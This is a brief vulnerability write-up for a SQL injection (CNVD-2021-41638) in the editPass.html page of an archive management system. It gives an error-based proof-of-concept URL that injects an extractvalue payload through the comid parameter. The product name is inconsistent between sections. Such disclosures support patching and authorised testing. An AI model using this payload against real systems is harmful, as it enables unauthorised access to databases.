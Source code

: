 # Unigroup Archive Management System editPass.html SQL injection vulnerability CNVD-2021-41638

## Vulnerability Description


There is a SQL injection vulnerability in the Unigroup Electronics Archive Management System. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Tianguang Electronic File Management System</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1633168580711-690386c5-48bd-4162-b6ed-763c9f57ee73.png)

Verify POC

```java
/login/Login/editPass.html?comid=extractvalue(1,concat(char(126),md5(1)))
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1633168707994-229d0a0c-dedf-4d6b-9554-da2d9015767a.png)
